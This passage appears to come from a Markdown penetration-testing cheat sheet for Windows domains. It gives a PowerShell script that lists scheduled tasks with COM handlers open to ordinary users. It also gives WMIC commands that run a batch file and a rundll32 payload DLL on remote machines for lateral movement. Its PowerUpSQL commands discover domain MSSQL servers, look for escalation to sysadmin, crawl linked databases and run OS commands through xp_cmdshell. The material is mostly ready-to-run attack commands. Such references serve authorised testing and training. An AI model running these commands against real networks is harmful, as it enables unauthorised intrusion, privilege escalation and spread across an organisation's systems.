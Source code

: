 This simple powershell script can be used to achieve this operation. 

```powershell
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
    if ($Task.Actions.ClassId -ne $null)
    {
        if ($Task.Triggers.Enabled -eq $true)
        {
            if ($Task.Principal.GroupId -eq "Users")
            {
                Write-Host "Task Name: " $Task.TaskName
                Write-Host "Task Path: " $Task.TaskPath
                Write-Host "CLSID: " $Task.Actions.ClassId
                Write-Host
            }
        }
    }
}
```

## 8) Lateral Movement

### WMIC Lateral Movement

```cpp
wmic /node:"192.168.1.2" process call create "C:\Perflogs\434.bat"
WMIC /node:"DC.example.domain" process call create "rundll32 C:\PerfLogs\arti64.dll, StartW"
```

## 9) MSSQL databases

PowerUpSQL can be used to look for databases within the domain, and gather further information on databases.

```py
# Get MSSQL databases in the domain, and test connectivity
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded | ft

# Try to get information on all domain databases
Get-SQLInstanceDomain | Get-SQLServerInfo

# Get information on a single reachable database
Get-SQLServerInfo -Instance 'sql-1.cyber.io,1433'

# Scan for MSSQL misconfigurations to escalate to SA
Invoke-SQLAudit -Verbose -Instance UFC-SQLDEV

#PowerUpSQL automatically crawl database links
Get-SQLServerLinkCrawl -Instance 'sql-1.cyber.io,1433'

# Execute SQL query
Get-SQLQuery -Query "SELECT system_user" -Instance sql-1.cyber.io

# Run command (requires XP_CMDSHELL to be enabled)
Invoke-SQLOSCmd -Instance sql-1.cyber.io -Command "whoami" |  select -ExpandProperty CommandResults
Invoke-SQLOSCmd -Instance sql-1.cyberbotic.io -Command 'dir C:\' -RawResults

# Automatically find all linked databases
Get-SqlServerLinkCrawl -Instance dcorp-mssql | select instance,links | ft
```
